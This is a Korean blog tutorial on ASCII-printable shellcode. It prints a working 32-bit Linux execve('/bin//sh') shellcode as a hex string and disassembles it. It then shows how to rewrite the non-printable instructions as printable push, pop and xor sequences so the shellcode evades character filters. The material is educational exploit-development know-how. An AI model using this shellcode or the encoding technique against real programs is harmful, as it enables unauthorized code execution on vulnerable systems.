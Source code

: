 ```yaml
---
layout: post
title: ! "Ascii Numeric ShellCode"
excerpt_separator: <!--more-->
comments : true
tags:
  - Shellcode
  - Ascii
  - t4ngo
---
```


제가 얼마 전에 아주 재밌게 보았던! Ascii ShellCode에 대해 설명하여 볼까 합니다. Ascii-Numeric-ShellCode란 출력 가능한 Ascii 문자들로 이루어진 쉘 코드를 뜻하며 다형성 쉘코드의 한 종류입니다!

출력 가능한 Ascii 문자들로 이루어진 쉘 코드가 무슨 말이냐?

지금부터 저와 함께 알아보시죠! GOGOGO~~!

<!--more-->

먼저, 우리가 흔히 알고 있는 Basic한 32-bit Shell code를 봐 볼까요?

- `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

보통 우리는 Simple한 ShellCode Exploit을 할 때 보통 위와 같은 쉘 코드를 주로 사용합니다!

좀 더 보기 쉽게 disassemble 해 볼까요?

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

Online Assembler로 간단하게 Disassemble하면 위와 같은 Assembly 코드를 볼 수가 있습니다.

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
```

코드를 보면 위 코드에서 스택에 0을 push합니다. 

```
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
```

그런 다음 현재 코드에서 스택에 "/bin//sh(0x68732f2f, 0x6e69622f)"을 push하는 것을 알 수 있죠?

```
d:  89 e3                   mov    ebx,esp
```

다시 코드를 쭈~욱 보면 아래 코드를 통해 스택에 궁극적으로 "/bin//sh"의 포인터를 ebx 레지스터에 넣습니다.

```
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
```

그리고, 0을 edx 레지스터에 넣은 후

```
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
```

ecx 레지스터에 "/bin//sh"이 저장된 곳의 포인터를 ecx 레지스터에 넣어 줍니다! 여기까지 잘 따라오셨나요?

```
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

그리고 마지막으로 al 레지스터에 0xb를 넣고 `'int 0x80'` 명령어를 통해 syscall을 수행하여 쨘~ 하고 쉘을 띄워줍니다!

여기까지가 보통 32-bit Shell Code입니다! 그렇다면!!! 드디어! Ascii-Numeric-ShellCode와는 무엇이 다른가?!

먼저, Ascii-Numeric-ShellCode는 위애서 설명했든 출력 가능한, printable한 hex 값들로 이루어진 Shellcode를 뜻합니다.

다시 위의 32-bit Shell Code를 봐 볼까요?

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

- `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
`

현재의 hex 값에는 Ascii 코드로 표현하지 못하는 hex 값이 존재합니다! 즉, Ascii table에 없는 hex 값이라 printable하지 못하다는 것이겠죠?

![]({{ site.baseurl }}/images/t4ngo/Ascii-Numeric-ShellCode/Ascii_Numeric_ShellCode_01.PNG)


출력 가능한 Ascii table의 범위는 0x20 ~ 0x7F까지입니다. 즉, 이 범위 안에 해당하는 hex 값들만 Ascii-Numeric-ShellCode로 사용이 가능하다는 뜻이겠죠?

그렇다면, 여러분은 현재의 32-bit ShellCode에서 Ascii의 범위를 벗어난 hex들을 찾으셨나요?

Ascii-Numeric-ShellCode란 바로 이런 Asciiable 하지 않은 hex 코드들을 Asciiable하게 바꿔주어 모든 hex 값이 출력 가능한 Ascii 값을 가진 Shell Code를 말합니다!!

위 코드에서 Asciiable 하지 않은 코드들을 뽑아볼까요?

1. 
```
0:  31 c0                   xor    eax,eax
```

2. 
```
d:  89 e3                   mov    ebx,esp
```

3. 
```
10: 89 e2                   mov    edx,esp
```

4. 
```
13: 89 e1                   mov    ecx,esp
```

5. 
```
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

위와 같은 코드 부분들이 모두 Ascii Table의 범위를 벗어났죠? 나쁜 녀석들이에요 ㅠㅠ.

그럼 이 hex 값들을 어떻게 바꿔주냐!! 지금부터 주목해주세요!

```
0:  31 c0                   xor    eax,eax
```

이 코드는

```
0:  6a 77                   push   0x77
2:  58                      pop    eax
3:  34 77                   xor    al,0x77
```

쨘! 이렇게 바꿔 줄 수 있겠죠? 결과적으로 `'xor eax,eax'`가 하는 일은 eax 레지스터에 0을 담는 것이므로 코드를 아래와 같이 바꿔 줄 수 있어요! ㅎㅎ

또한, 그 때마다 Binary의 레지스터 상황을 보고 유연하게 쉘 코딩도 할 수 있죠!

예를 들면, 쉘 코드를 호출하기 직전에 eax 레지스터에 0x01이 들어있었다! 그러면 코드를 `'dec eax'`로 수정해주면 eax 레지스터는 0이 되겠죠? (오옹! >_O)

그 다음! mov 코드들은 어떻게 바꿔주냐! mov도 마찬가지로 push, pop으로 해결이 가능합니다! ㅎㅎ

2번 코드를 push, pop으로 구현하면...

```
0:  54                      push   esp
1:  5b                      pop    ebx
```

위와 같은 코드로 바꿀 수 있겠죠? 스택에 esp를 push하고 ebx로 pop을 해주면서 `'mov ebx, esp'`와 같은 동작을 하게 됩니다!

mov 명령들은 위와 같이 해결해 주면 되고!

```
17: cd 80                   int    0x80
```

다음은, syscall 부분! 사실 이 부분이 제일 핵심이죠! 왜냐? `'int 0x80'`은 대체 할 수 있는 명령어가 거의 없기 때문이죠 ㅠㅠ

그렇기 때문에 앞서 말해드렸던 스택에 이미 존재하는 레지스터 값을 이용하여 syscall을 호출 하여야 하는데요! 

음... 가령 예를 들면 xo 

ecx 레지스터에 0xFFFF 값이 들어있다면 이 값을 활용하여 `'xor ecx, 0x327F'`를 해줘서 `'cd 80'` hex를 만들어 준 뒤 이 값을 활용하여 eip에 넣어주도록 스택의 상황에 맞게 조작하여 주면 됩니다!

사실, 이 부분은 Binary 마다 호출 당시 스택의 상황이나 레지스터의 상황이 다 다르기 때문에 이런식으로 원리를 설명드리는 방법이 최선인 것 같아요 ㅠㅠ

이 외에도 레지스터나 스택에 남아 있는 값들을 활용하여 `'cd 80'`을 만들어 주면 되는데 핵심은 스택에 `'cd 80'`을 만들어 주고 그 값을 활용하여 syscall을 한다는 것만 기억하면 됩니다!

Ascii-Numeric-ShellCode를 만드는 것이 이렇게 해서 이렇게 하면 이렇게 돼! 하고 딱 정의 되어 있지 않고 그때그때 스택의 상황이나 레지스터의 상황을 보며 자신에게 가장 알맞는 코드를 선택하여 쉘 코딩해주면 되기 때문에 대략 이런 원리로 Ascii-Numeric-ShellCode가 만들어 진다는 점만 기억해주시면 될 것 같습니다!

이제 여러분의 레지스터나 스택 상황에 맞게 창의성을 발휘하여 Ascii-Numeric-ShellCode를 만들어 보세요~!!! 화이팅!
